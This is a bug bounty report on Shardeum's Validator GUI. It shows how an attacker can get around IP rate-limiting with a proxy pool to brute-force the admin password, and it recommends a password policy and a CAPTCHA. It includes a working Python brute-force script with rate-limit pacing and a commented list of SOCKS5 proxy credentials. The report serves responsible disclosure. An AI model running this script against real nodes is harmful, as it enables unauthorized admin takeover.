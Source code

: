 
# Validator GUI password bruteforcing is possible using the proxies

Submitted on Fri Jul 19 2024 10:44:51 GMT-0400 (Atlantic Standard Time) by @anton_quantish for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #33392

Report type: Websites and Applications

Report severity: Insight

Target: https://github.com/shardeum/validator-gui/tree/dev

Impacts:
- Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information, Commenting, Voting, Making trades, Withdrawals, etc.

## Description
Hey Shardeum team,

## Brief/Intro
The only password-bruteforce protection the Validator GUI has is the IP rate-limiting. This protection could be easily bypassed by using a pool of proxy-servers and, thus, the attacker can successfully guess the admin password in a very short time (depending of the password complexity).

## Vulnerability Details
First of all, there's no password policy the Validator GUI/CLI have at all. The node admin can easily set the password like "1" or something similar and, in such a case, the attacker would be able to immediately guess it using just his/her own IP address.

Then, if the password set is more complex, the only bruteforce-protection the Validator has is the rate-limiting of source IP address. This protection could easily be bypassed by an attacker using a pool of proxy servers.

- If the password uses lowercase letters and digits only, for example, and has a length of 6 chars, the whole variety of combinations is 36^6 ~= 2.17 billions.
- Every IP address can make 1500 API calls per 10 minutes.

Thus, it'd take just
```
((2.17*10**9 passwords) / (150 passwords per minute) / 10000 IPs)
= 1446 minutes ~= 24 hours
```
to guess such a password using 10000 proxy servers (which is absolutely realistic).

It would be much easily to guess one in case of using the password dictionaries.

If the password is more complex, an attacker can use more proxy servers and/or wait more.

## Impact Details
After the successful password guess, the attacker will be able to sign in to GUI and do anything the admin can.

## Mitigation
1. First of all, I highly recommend you to set some default password policy like at least having a digit, a letter and a char, and a length of at least 8 symbols.
2. It wouldn't absolutely mitigate the issue though because users often use passwords like "Shardeum2024!". That's why I recommend you to set up a CAPTCHA on login page. It can also be bypassed but it would take a lot of either time or money from the attacker to successfully guess a password in such a case. If you don't want to show the CAPTCHA always, you can show it for EVERY IP address in case of there was 3 failed login attempts from ANY IP in some time window for instance.
        
## Proof of concept
## Proof of Concept
You can use the following python script to perform the password bruteforce using proxies (I commented them to be able to test it on my local installation but you can try it with your own external setup and make sure the bruteforcing works).
```python
import asyncio
from hashlib import sha256

from httpx import AsyncClient


AUTH_ENDPOINT = 'http://172.16.205.128:8081/auth/login'  # use the external IP here

# PROXIES = '''socks5://svqghgoq:5t7s4aabgbkr@45.127.248.127:5128
# socks5://svqghgoq:5t7s4aabgbkr@207.244.217.165:6712
# socks5://svqghgoq:5t7s4aabgbkr@134.73.69.7:5997
# socks5://svqghgoq:5t7s4aabgbkr@64.64.118.149:6732
# socks5://svqghgoq:5t7s4aabgbkr@157.52.253.244:6204
# socks5://svqghgoq:5t7s4aabgbkr@167.160.180.203:6754
# socks5://svqghgoq:5t7s4aabgbkr@166.88.58.10:5735
# socks5://svqghgoq:5t7s4aabgbkr@173.0.9.70:5653
# socks5://svqghgoq:5t7s4aabgbkr@204.44.69.89:6342
# socks5://svqghgoq:5t7s4aabgbkr@173.0.9.209:5792'''.splitlines()

PROXIES = []


# passwords_to_try = (str(i) for i in range(100000, 200000))
passwords_to_try = iter(['5', '4', '3', '2', '1'])


async def worker(proxy):
	client = AsyncClient(proxies=proxy)
	while True:
		try:
			password = next(passwords_to_try)
		except StopIteration:
			break
		password_hash = sha256(password.encode('utf8')).hexdigest()
		resp = await client.post(AUTH_ENDPOINT, json={
			'password': password_hash
		})
		if resp.status_code != 403:
			print('!!!', 'password found', password)
		else:
			print('password invalid', password)
		await asyncio.sleep(0.4)  # sleep 0.4 sec to not be rate-limited (600s/1500 = 0.4s)


async def main():
	tasks = [worker(p) for p in PROXIES]
	tasks.append(worker(None))  # use attacker's own IP as well
	await asyncio.gather(*tasks)


if __name__ == '__main__':
	asyncio.run(main())

```